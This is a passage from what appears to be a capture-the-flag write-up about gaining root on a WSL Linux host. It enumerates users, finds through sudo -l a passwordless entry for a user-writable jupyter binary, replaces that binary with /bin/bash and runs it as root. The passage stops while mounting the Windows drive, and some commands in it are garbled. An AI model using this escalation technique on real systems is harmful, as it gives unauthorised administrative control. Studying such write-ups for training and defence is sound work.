 We check out the privileges `DATASCI-JUP` can run. We don't have the password, so let's checkout commands this user can execute as sudo and find ways to exploit it.

## SHELL

Let's check for a bash shell for `DATASCI-JUP` 

`cat /etc/passwd | grep  "bash"`

we can pop a shell in `/bin/bash`
```shell
(base) dev-datasci@DEV-DATASCI-JUP:~$ cat /etc/passwd | grep  "bash"
root:x:0:0:root:/root:/bin/bash
dev-datasci:x:1000:1000:,,,:/home/dev-datasci:/bin/bash
```


## Privilege Escalation
```shell
(base) dev-datasci@DEV-DATASCI-JUP:~$ sudo -l
Matching Defaults entries for dev-datasci on DEV-DATASCI-JUP:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dev-datasci may run the following commands on DEV-DATASCI-JUP:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /home/dev-datasci/.local/bin/jupyter, /bin/su dev-datasci -c *
```
This reveals a binary that does not require a password to execute.
We can exploit this.

GTFOBINS has nothing on this binary.

I found that we can copy the /bin/bash shell to our directory and pop a shell.

```shell
(base) dev-datasci@DEV-DATASCI-JUP:~/datasci-team$ cp /bin/bash /home/dev-datasci/.local/bin/jupyter

(base) dev-datasci@DEV-DATASCI-JUP:~/datasci-team$ sudo /home/dev-datasci/.local/bin/jupyter
```
We are root!
```shell
root@DEV-DATASCI-JUP:/home/dev-datasci/datasci-team# whoami
root
root@DEV-DATASCI-JUP:/home/dev-datasci/datasci-team#
```

As we had established before, this machine is opearating on a Windows Subsystem for Linux.

Change directory to `mnt` where the machine is mounted. `cd #mnt`

We successfully go to the `mnt` directory but  cannot do much here since the machine is not mounted.

To mount we use the mount -t drvfs 'c': /mnt/c

